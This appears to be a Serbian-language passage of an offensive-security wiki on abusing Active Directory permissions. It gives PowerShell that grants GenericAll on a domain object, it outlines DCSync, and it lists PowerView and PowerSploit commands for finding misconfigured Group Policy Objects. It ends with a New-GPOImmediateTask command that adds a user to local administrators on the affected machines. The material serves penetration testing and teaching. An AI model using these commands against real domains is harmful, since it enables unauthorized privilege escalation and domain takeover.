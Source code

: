 ```powershell
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

## **Replikacija na domenu (DCSync)**

DCSync napad koristi specifične dozvole za replikaciju na domenu kako bi imitirao kontroler domena i sinhronizovao podatke, uključujući korisničke podatke. Ova moćna tehnika zahteva dozvole poput `DS-Replication-Get-Changes`, omogućavajući napadačima da izvuku osetljive informacije iz AD okruženja bez direktnog pristupa kontroleru domena. [**Saznajte više o DCSync napadu ovde.**](../dcsync.md)

## Delegacija GPO-a <a href="#gpo-delegation" id="gpo-delegation"></a>

### Delegacija GPO-a

Delegirani pristup za upravljanje objektima grupne politike (GPO) može predstavljati značajne sigurnosne rizike. Na primer, ako je korisnik poput `offense\spotless` delegiran sa pravima upravljanja GPO-ima, mogu imati privilegije poput **WriteProperty**, **WriteDacl** i **WriteOwner**. Ove dozvole mogu biti zloupotrebljene u zlonamerne svrhe, kao što je identifikacija korišćenjem PowerView-a: `bash Get-ObjectAcl -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}`

### Nabrojavanje dozvola GPO-a

Da biste identifikovali nepravilno konfigurisane GPO-e, cmdleti PowerSploit-a mogu biti povezani zajedno. Ovo omogućava otkrivanje GPO-a koje određeni korisnik ima dozvole da upravlja: `powershell Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "OFFENSE\spotless"}`

**Računari sa primenjenom određenom politikom**: Moguće je utvrditi na koje računare se odnosi određena GPO, pomažući u razumevanju obima potencijalnog uticaja. `powershell Get-NetOU -GUID "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" | % {Get-NetComputer -ADSpath $_}`

**Politike primenjene na određeni računar**: Da biste videli koje politike su primenjene na određeni računar, mogu se koristiti komande poput `Get-DomainGPO`.

**OU sa primenjenom određenom politikom**: Identifikacija organizacionih jedinica (OU) pogođenih određenom politikom može se obaviti korišćenjem `Get-DomainOU`.

### Zloupotreba GPO-a - New-GPOImmediateTask

Nepravilno konfigurisani GPO-i mogu biti iskorišćeni za izvršavanje koda, na primer, kreiranjem odmah zakazanog zadatka. Ovo se može uraditi kako bi se dodao korisnik u lokalnu administratorsku grupu na pogođenim mašinama, značajno povećavajući privilegije:

```powershell
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```
